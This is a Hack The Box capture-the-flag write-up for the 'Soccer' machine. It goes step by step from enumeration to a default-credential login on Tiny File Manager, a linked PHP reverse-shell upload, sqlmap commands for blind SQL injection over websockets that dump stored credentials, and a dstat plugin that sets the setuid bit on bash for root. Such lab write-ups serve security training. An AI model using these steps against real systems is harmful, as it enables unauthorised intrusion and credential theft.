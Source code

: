# Soccer

A writeup for the machine [Soccer](https://app.hackthebox.com/machines/Soccer) on Hack The Box.

<Image src={require("./banner.webp").default} height="500" />

## Footprinting

### Nmap scan

Use nmap to scan for services.

```bash
nmap -sS <IP>
```

<Image src={require("./nmap-scan.webp").default} />

We can see three services: ssh, http, and one on port 9091 used for websockets.

### Website analysis

If we look on the website there is only a simple homepage with no other links.

<Image src={require("./website.webp").default} />

### Website enumeration

By enumerating the main website using gobuster we can find a subdomain called tiny.

```bash
gobuster dir -u soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<Image src={require("./gobuster.webp").default} />

## User flag

### Entering Tiny File Manager

During the enumeration a page is found under /tiny. There is a login but common credentials don't work.

It is possible to search online for "Tiny File Manager" and the Github repository of this project is one of the first results.

There is a section in the public documentation about the default admin credentials. The second user works. It is possible to enter inside.

Default credentials:

```
username: user
password: 12345
```

[https://github.com/prasathmani/tinyfilemanager/wiki/Security-and-User-Management](https://github.com/prasathmani/tinyfilemanager/wiki/Security-and-User-Management)

<Image src={require("./tiny.webp").default} />

### Exploiting the file upload vulnerability in Tiny

Because it is a php server and we can upload file, we can obtain a reverse shell by uploading something like this and executing it.

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<Image src={require("./upload.webp").default} />

### Inside the system

Once inside we can see that we have no access as the main user or the root.

Also, no vulnerabilities are found with tools like LinPeas or LinEnum.

By looking in the available files we can find in the nginx config that there is an additional website as soc-player.soccer.htb.

<Image src={require("./nginx.webp").default} />

### Second website

Once logged in the second website, there is only an input box.

By trying different inputs we can see that the message "Tickets exists" is show when the query is correct and a value is found.

This is a blind sql injection vulnerability.

<Image src={require("./sqli.webp").default} />

### SQLMap over websocket

The vulnerable request is managed with websockets so it is not possible to use sqlmap directly.

By looking to Rayhan0x01 post there is a possible solution for this.

[https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

We can create a middle server that receives normal GET requests by sqlmap and sent them to the websockets server and vice versa.

Once the script is ready and the server up and running, we can execute sqlmap and enumerate the database.

Run it with `flask run`

```bash
python3 -m venv .venv
source .venv/bin/activate
python3 -m pip install flask websocket
```

<Gist id="23988dbb8c44b3885f7f488caba89414" />

### Running SQLmap

```bash
# enumerate dbs
sqlmap -u "http://localhost:5000/?id=1" --batch --dbs

# enumerate tables in app db
sqlmap -u "http://localhost:5000/?id=1" --batch -D soccer_db --tables

# enumerate credentials
sqlmap -u "http://localhost:5000/?id=1" -D soccer_db -T accounts -C username,email,password --dump
```

<Image src={require("./sqlmap.webp").default} />

### User flag

We can enter inside the system using ssh and the credentials found in the database. It is possible in this way to read the user flag.

<Image src={require("./user.webp").default} />

## Root flag

### Privilege escalation

Once inside the system for privilige escalation we can run LinPeas. Move it using ssh or by serving a directory.

```bash
./LinPeas.sh
```

[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

In the final output of LinPeas we can see that there is a possible vulnerability with dstat.

<Image src={require("./linpeas.webp").default} />

### Exploiting dstat

dstat can be run as root. We could write a new plugin to make some actions like the root inside the system.

New plugins can be written inside the folder `/usr/local/share/dstat`.

The filename format should be `dstat_<plugin_name>.py` like `dstat_hack.py`.

```python
# /usr/local/share/dstat/dstat_hack.py
import os

os.system('chmod +s /usr/bin/bash') # setuid
```

We can run it using this command

```bash
sudo /usr/bin/dstat --hack
```

### Root flag

Now we can run bash as root and read the flag.

```bash
bash -p
```

<Image src={require("./root.webp").default} />
